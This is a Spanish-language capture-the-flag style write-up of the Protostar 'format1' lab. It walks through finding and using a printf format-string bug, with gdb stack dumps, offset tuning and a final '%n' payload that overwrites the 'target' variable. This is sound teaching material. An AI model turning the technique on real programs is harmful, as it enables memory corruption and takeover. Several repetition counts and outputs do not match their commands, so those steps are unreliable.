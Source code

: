 
---------------------------------------------------------------------------
## Sobreescribir una variable -> [format1](https://exploit.education/protostar/format-one/)

Este binario toma un argumento (al que llama "string"), lo mete en la funcion **printf()** y te imprime dicho argumento

  	```console
  	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA
  	AAA[user@protostar]-[/opt/protostar/bin]:$ 
  	```
Como no hace un salto de linea, lo ponemos nosotros concatenando "; echo"
  
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA; echo
	  AAA
    [user@protostar]-[/opt/protostar/bin]:$ 
  	```
¿Si en vez de pasarle una "A" le pasamos una cadena de formateo como %x (numero hexadecimal)?
  
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 %x; echo
	  804960c
    [user@protostar]-[/opt/protostar/bin]:$ ./format1 "%x %x"; echo
    804960c bffff6e8
  	```
 Este "bffff6e8" parece una direccion de la pila...
 
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ python -c "print('%x'*4)"  > /tmp/pattern
    [user@protostar]-[/opt/protostar/bin]:$ gdb ./format1
    (gdb) disas vuln
    Dump of assembler code for function vuln:
    0x080483f4 <vuln+0>:	push   %ebp
    0x080483f5 <vuln+1>:	mov    %esp,%ebp
    0x080483f7 <vuln+3>:	sub    $0x18,%esp
    0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
    0x080483fd <vuln+9>:	mov    %eax,(%esp)
    0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
    0x08048405 <vuln+17>:	mov    0x8049638,%eax
    0x0804840a <vuln+22>:	test   %eax,%eax
    0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
    0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
    0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
    0x0804841a <vuln+38>:	leave  
    0x0804841b <vuln+39>:	ret    
    End of assembler dump.
    (gdb) b *0x08048400
    (gdb) run < /tmp/pattern
    Starting program: /opt/protostar/bin/format1 < /tmp/pattern
    Breakpoint 4, 0x08048400 in vuln (string=0x0) at format1/format1.c:10
    10	format1/format1.c: No such file or directory.
      in format1/format1.c
    (gdb) x/40wx $esp
    0xbffff670:	0x00000000	0x0804960c	0xbffff6a8	0x08048469
    0xbffff680:	0xb7fd8304	0xb7fd7ff4	0xbffff6a8	0x08048435
    0xbffff690:	0x00000000	0xb7ff1040	0x0804845b	0xb7fd7ff4
    0xbffff6a0:	0x08048450	0x00000000	0xbffff728	0xb7eadc76
    0xbffff6b0:	0x00000001	0xbffff754	0xbffff75c	0xb7fe1848
    0xbffff6c0:	0xbffff710	0xffffffff	0xb7ffeff4	0x0804824d
    0xbffff6d0:	0x00000001	0xbffff710	0xb7ff0626	0xb7fffab0
    0xbffff6e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
    0xbffff6f0:	0xbffff728	0x8160bf58	0xab35a948	0x00000000
    0xbffff700:	0x00000000	0x00000000	0x00000001	0x08048340
  	```
    
Como podemos ver la segunda entrada de la pila es nuestro "0x0804960c" que se imprimió antes, es decir, prinf(%x) imprime contenido de la pila.

  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*150 + '%x')") | tr "." "\n" ;echo
	  AAAABBBB 804960c
    bffff488
     8048469
    b7fd8304
    b7fd7ff4
    ...
    2e000000
    726f662f
    3174616d
    41414100
    42424241
    78382542
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
    7838252e
  	```
   Nos está imrpimiendo muchos valores de la pila, en cierto momento, se ven "41" y "42", que equivalen a nuestras "A" y "B", seguidos de "7838252e"
   que son nuestras "%8x.". El objetivo, esque sean las A los útlimos valores que salgan, para eso hay que reducir las x u offset.
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	  AAAABBBB 804960c
    bffff488
    ...
    726f662f
    3174616d
    41414100
    42424241
    ```
   El problema esque se han mezclado los 42 y los 41 (A)s y (B)s, y tiene que quedar perfecto, asi que se reduce el numero de "B"

  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	  AAAABBBB 804960c
    bffff488
    ...
    41414141
    78382542
    7838252e
    7838252e
    7838252e
    ```
   Se quitan mas "x"

  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*168 + '%x')") | tr "." "\n" ;echo
	  AAAABBBB 804960c
    bffff488
    ...
    2f2e0000
    6d726f66
    317461
    41414141
    ```
  Perfecto, ya están alineados nuestras, "A". Pero ahora lo que interesa es cambiar esas "A" por otra cosa, la direccion de la varaible 
  que queremos modificar:
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format1 | grep "target"
	  08049638 g     O .bss	00000004              target
    ```
  La direccion de la variable "target" es *0x08049638* que si lo pasamos a endian (dar la vuelta a los bytes) sale -> *\x38\x96\x04\x08*
  Ahora sustituimos las "AAAA" por esa dirección (ambas cosas ocupan 4 bytes).
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%x')") | tr "." "\n" ;echo
	  AAAABBBB 804960c
    bffff488
    ...
    317461
    8049638
    ```
  Perfecto, la dirección de memoria se ha alineado perfectamente. Ahora hay que sobrrescribirla cambiando la "%x" por "%n"
  
  	```console
	  [user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%n')") | tr "." "\n" ;echo
	  AAAABBBB 804960c
    bffff488
    ...
    317461
    you have modified the target :)
    ```
  Y ya está, primer format completado.

  
    
   
